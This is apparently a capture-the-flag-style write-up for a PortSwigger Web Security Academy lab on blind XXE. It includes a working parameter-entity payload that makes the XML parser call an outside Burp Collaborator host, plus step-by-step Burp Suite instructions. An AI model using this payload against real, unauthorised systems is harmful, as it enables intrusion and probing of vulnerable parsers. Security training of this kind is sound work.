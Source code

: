 # Blind XXE with out-of-band interaction via XML parameter entities

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities) has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:

```text
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```

5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploitability

An attacker needs to use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._
